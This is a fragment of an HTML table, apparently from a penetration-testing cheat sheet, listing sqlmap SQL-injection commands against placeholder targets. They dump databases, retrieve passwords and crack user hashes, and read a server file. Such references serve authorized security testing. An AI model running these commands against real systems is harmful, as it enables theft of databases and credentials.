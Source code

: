 <tr>
<td>sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>
–level=3 –current-user –current-db –passwords<br>
–file-read=”/var/www/blah.php”</td>
<td>Targeted sqlmap scan</td>
</tr>
<tr>
<td>sqlmap -u “http://meh.com/meh.php?id=1”<br>
–dbms=mysql –tech=U –random-agent –dump</td>
<td>Scan url for union + error based injection with mysql backend<br>
and use a random user agent + database dump</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh.com/form/” –forms</td>
<td>sqlmap check form for injection</td>
</tr>
<tr>
<td>sqlmap -o -u “http://meh/vuln-form” –forms<br>
-D database-name -T users –dump</td>
<td>sqlmap dump and crack hashes for table users on database-name.</td>
</tr>
</tbody>
</table>
